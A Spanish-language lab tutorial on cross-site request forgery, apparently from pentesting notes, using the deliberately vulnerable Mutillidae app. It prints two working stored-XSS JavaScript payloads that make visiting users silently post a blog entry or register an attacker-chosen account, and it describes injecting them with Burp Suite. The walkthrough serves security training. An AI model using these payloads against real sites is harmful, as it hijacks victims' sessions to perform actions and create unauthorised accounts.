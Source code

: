# CSRF (Cross-site request forgery)

Con esto basicamente lo que hacemos es forzar a un usuario legitimo que esta logeado en una aplicacion web realice una accion que ni si quiera sabe que esta realizando.

Vamos a coger un script que ya nos proporciona la pagina `Mutillidae` que seria el siguiente:

```html
<script>
	var lXMLHTTP;
	try{
		var lBlogEntry = encodeURI("Entrada de blog anadida mediante CSRF");

		var lData = "csrf-token=&blog_entry="+lBlogEntry+"&add-to-your-blog-php-submit-button=Save+Blog+Entry";
		var lAction = "./index.php?page=add-to-your-blog.php";
		var lMethod = "POST";

		try {
			lXMLHTTP = new ActiveXObject("Msxml2.XMLHTTP");
		}catch(e){
			try {
				lXMLHTTP = new ActiveXObject("Microsoft.XMLHTTP");
			}catch(e){
				try{
					lXMLHTTP = new XMLHttpRequest();
				}catch(e){
					alert(e.message);
				}
			}
		}

		lXMLHTTP.onreadystatechange = function(){
			if(lXMLHTTP.readyState == 4){
				alert("CSRF Complete");
			}
		};

		lXMLHTTP.open(lMethod, lAction, true);
		lXMLHTTP.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
		lXMLHTTP.send(lData);
	}catch(e){
		alert(e.message);
	}
</script>
```

Lo que vamos hacer con esto es que cada vez que un usuario entre en esta entrada de blog, se va a ejecutar en segundo plano esta sentencia bajo su nombre sin que el se de cuenta.

Ponemos a `Burp Suite` a la escucha, para capturar una peticion que nosotros hagamos, una vez que hayamos capturado la peticion poniendo por ejemplo `canario`, nos vamos al `Decoder` y lo codificamos en `URL`, despues esta codificacion la pegamos sustituyendo la palabra `canario`, quedando algo asi:

<figure><img src="../../../.gitbook/assets/image (98) (1).png" alt=""><figcaption></figcaption></figure>

Le daremos a `Forward` y veremos esto:

<figure><img src="../../../.gitbook/assets/image (99) (1).png" alt=""><figcaption></figcaption></figure>

Por lo que vemos que ha funcionado, claramente este popup en una explotacion real, no habria que ponerlo.

Y vemos que algo se ha injectado en el blog:

<figure><img src="../../../.gitbook/assets/image (100) (1).png" alt=""><figcaption></figcaption></figure>

Por lo que cada vez que un usuario acceda a esta pagina se va a estar ejecutando este scrip:

<figure><img src="../../../.gitbook/assets/image (101) (1).png" alt=""><figcaption></figcaption></figure>

Y se va a estar añadiendo una entrada en el blog como el usuario que entre.

Si por ejemplo nosotros nos logeamos con otro usuario, como si fuera otro el usuario que entre y nos dirijimos a ver las entradas de blog en el siguiente apartado:

`OWASP 2017` -> `Cross-Site-Scripting (XSS)` -> `Persistent (Second Order)` -> `View Someone's Blog`.

Seleccionamos el ver todas las entradas `Show all` y le damos a `View Blog Entries`, veremos esto:

<figure><img src="../../../.gitbook/assets/image (102) (1).png" alt=""><figcaption></figcaption></figure>

Veremos que se nos ha ejecutado por detras el script, como este usuario, por lo que si nosotros ahora nos dirigimos a escribir una entrada en el blog:

<figure><img src="../../../.gitbook/assets/image (103) (1).png" alt=""><figcaption></figcaption></figure>

Veremos que ya hay una entrada con este usuario logeado, por lo que ha funcionado correctamente.

Y lo que estamos haciendo con esto es que el usuario realice algunas tareas en nuestro beneficio.

Por ejemplo otro `payload` mas potente es hacer al usuario de que registre otra cuenta:

```html
<script>
	var lXMLHTTP;
	try{
		var lUsername = "csrf_test";
		var lPassword = "csrf_password";
		var lSignature = "Cuenta creada mediante una vulnerabilidad CSRF";
		var lData = "username="+lUsername+"&password="+lPassword+"&confirm_password="+lPassword+"&my_signature="+lSignature+"&register-php-submit-button=Create+Account";
		var lAction = "./index.php?page=register.php";
		var lMethod = "POST";

		try {
			lXMLHTTP = new ActiveXObject("Msxml2.XMLHTTP");
		}catch(e){
			try {
				lXMLHTTP = new ActiveXObject("Microsoft.XMLHTTP");
			}catch(e){
				try{
					lXMLHTTP = new XMLHttpRequest();
				}catch(e){
					alert(e.message);
				}
			}
		}

		lXMLHTTP.onreadystatechange = function(){
			if(lXMLHTTP.readyState == 4){
				alert("CSRF Complete");
			}
		};

		lXMLHTTP.open(lMethod, lAction, true);
		lXMLHTTP.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
		lXMLHTTP.send(lData);
	}catch(e){
		alert(e.message);
	}
</script>
```

Lo que hace esto al usuario es forzar mediante una peticion `AJAX` a crear una nueva cuenta con los parametros que nosotros le indiquemos.

Lo bueno de esto es que si nosotros no podemos crearnos una cuenta ya sea por que es una aplicacion de empresa o solo se puede por invitacion, otro usuario que si tenga acceso a ello podra crearla por nosotros y nosotros podernos logear con dicha cuenta.

Por lo que abriremos `Burp Suite` capturaremos la peticion de `canario` y codificaremos el anterior script en `URL` y lo reemplazaremos por la palabra `canario` quedando algo asi:

<figure><img src="../../../.gitbook/assets/image (104) (1).png" alt=""><figcaption></figcaption></figure>

Le daremos a `Forward` y nos saldra esto:

<figure><img src="../../../.gitbook/assets/image (105) (1).png" alt=""><figcaption></figcaption></figure>

Ahora nos loguearemos con otra cuenta para hacerlo desde un usuario externo.

Nos iremos a `OWASP 2017` -> `Cross-Site-Scripting (XSS)` -> `Persistent (Second Order)` -> `View Someone's Blog`.

Seleccionamos el ver todas las entradas `Show all` y le damos a `View Blog Entries`, veremos esto:

<figure><img src="../../../.gitbook/assets/image (106) (1).png" alt=""><figcaption></figcaption></figure>

Por lo que el usuario con los parametros que especificamos ya se habria creado correctamente bajo este usuario, solo tendremos que probar a introducir las credenciales y veremos lo siguiente:

```
User: csrf_test
Pass: csrf_password
```

<figure><img src="../../../.gitbook/assets/image (107) (1).png" alt=""><figcaption></figcaption></figure>
